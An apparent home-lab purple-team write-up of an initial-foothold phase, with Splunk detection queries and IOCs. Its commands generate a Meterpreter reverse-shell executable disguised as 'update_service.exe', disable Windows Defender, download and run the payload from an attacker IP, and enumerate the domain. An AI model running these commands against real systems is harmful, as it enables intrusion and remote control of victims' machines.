


# Phase 2 — Initial Foothold

> **Tactic:** Initial Access, Execution, Command and Control  
> **ATT&CK:** T1566, T1204, T1571  
> **Target:** HL-WS01 as brown (HR)  
> **Result:** Meterpreter reverse shell established

---

## Overview

Simulated a phishing attack by delivering a malicious executable to brown (HR) 
on HL-WS01. The payload established a reverse Meterpreter session back to 
the Kali attacker machine on port 4444.




## Prerequisites

Install required tools on Kali:

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y metasploit-framework python3-impacket impacket-scripts
sudo apt install -y crackmapexec smbclient enum4linux
gem install evil-winrm
```

---

## Step 1 — Generate Stageless Payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp \
  LHOST=192.168.0.103 \
  LPORT=4444 \
  -f exe \
  -o /tmp/update_service.exe
```

Serve the payload via HTTP:

```bash
cd /tmp && python3 -m http.server 8080
```

> **Why stageless?** Staged payloads are more easily caught by Windows 
> Defender. The stageless payload (`meterpreter_reverse_tcp`) embeds the 
> full payload in the executable making it more reliable in lab environments.

---

## Step 2 — Disable Defender on HL-WS01

> **Note:** In a real engagement Defender evasion techniques would be used. 
> For this lab we disable it to focus on the attack chain.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -DisableIOAVProtection $true
```

---

## Step 3 — Start Listener on Kali

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 192.168.0.103
set LPORT 4444
set ExitOnSession false
run
```

---

## Step 4 — Execute Payload on HL-WS01 as brown (HR)

```powershell
Invoke-WebRequest `
  -Uri "http://192.168.0.103:8080/update_service.exe" `
  -OutFile "C:\Users\brown\Downloads\update_service.exe"

Start-Process "C:\Users\brown\Downloads\update_service.exe"
```

---

## Step 5 — Confirm Session on Kali

```bash
getuid
# HOMELAB\brown

sysinfo
getprivs
```

brown (HR) has no admin privileges — cannot run getsystem or UAC bypass.
This confirms the privilege boundary is working correctly.

---

## Step 6 — Domain Recon from Meterpreter

```bash
# Enumerate domain users
shell
net user /domain

# Enumerate groups
net group /domain

# Find local admins on WS01
net localgroup administrators

# Confirm brown (HR) is NOT local admin
whoami /groups

# Confirm johnson (IT) local admin
net group Workstation_Local_Admins /domain
```

Key findings from recon:
```
johnson  → member of Workstation_Local_Admins → local admin on WS01
svc_backup  → member of Backup_Operators → interesting target
da_admin    → Domain Admin → crown jewel
```

---

## Splunk Detection

### Payload Execution — Sysmon EID 1
```
index=wineventlog_sysmon host="HL-WS01" EventCode=1
| search Image="*update_service*"
| table _time, Image, CommandLine, User, ParentImage
```

### Reverse Shell to Kali — Sysmon EID 3
```
index=wineventlog_sysmon host="HL-WS01" EventCode=3
| search DestinationIp="192.168.0.103" DestinationPort=4444
| table _time, Image, DestinationIp, DestinationPort, User
```

### brown (HR) Logon — EID 4624
```
index=wineventlog host="HL-WS01" EventCode=4624
| search Account_Name="brown"
| table _time, Account_Name, Logon_Type, Source_Network_Address
```


---

## IOCs Generated

| Type | Value |
|------|-------|
| Filename | update_service.exe |
| Hash | Run `md5sum /tmp/update_service.exe` on Kali |
| C2 IP | 192.168.0.103 |
| C2 Port | 4444 |
| Process | C:\Users\brown\Downloads\update_service.exe |

---

## Key Takeaway

> brown (HR) has no admin rights anywhere in the domain. The next step is to 
> escalate privileges by harvesting credentials — starting with Kerberoasting 
> svc_backup whose SPN makes it a perfect target.
